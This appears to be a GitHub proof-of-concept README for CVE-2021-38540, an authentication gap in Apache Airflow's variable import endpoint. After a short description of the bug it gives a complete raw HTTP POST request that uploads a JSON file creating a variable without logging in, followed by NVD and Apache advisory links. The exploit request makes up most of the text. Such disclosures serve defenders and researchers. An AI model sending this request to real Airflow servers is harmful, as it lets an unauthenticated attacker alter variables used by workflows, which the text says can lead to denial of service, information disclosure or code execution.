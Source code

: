 # CVE-2021-38540 Proof of Concept
Missing Authentication on Critical component Known as CVE-2021-38540

# About this bug:

The variable import endpoint was not protected by authentication in Airflow >=2.0.0, <2.1.3. This allowed unauthenticated users to hit that endpoint to add/modify Airflow variables used in DAGs, potentially resulting in a denial of service, information disclosure or remote code execution. This issue affects Apache Airflow >=2.0.0, <2.1.3. [CVE-2021-38540]

# About this PoC:

This POC contains a request that will create a Variable named: kafka_captainhook_user under Admin>variables [ List Variables ]

# PoC Source:

```HTTP
POST /variable/varimport HTTP/2
Host: airflow.example.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------33976360506209910502051128075
Content-Length: 398
Origin: https://airflow.example.com
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

-----------------------------33976360506209910502051128075
Content-Disposition: form-data; name="csrf_token"

 
-----------------------------33976360506209910502051128075
Content-Disposition: form-data; name="file"; filename="variables.json"
Content-Type: application/json

{
    "kafka_captainhook_user": "testCaptain"
}

-----------------------------33976360506209910502051128075--
```
# Refrences

https://nvd.nist.gov/vuln/detail/CVE-2021-38540
https://lists.apache.org/thread.html/rac2ed9118f64733e47b4f1e82ddc8c8020774698f13328ca742b03a2@%3Cannounce.apache.org%3E
https://lists.apache.org/thread.html/rb34c3dd1a815456355217eef34060789f771b6f77c3a3dec77de2064%40%3Cusers.airflow.apache.org%3E

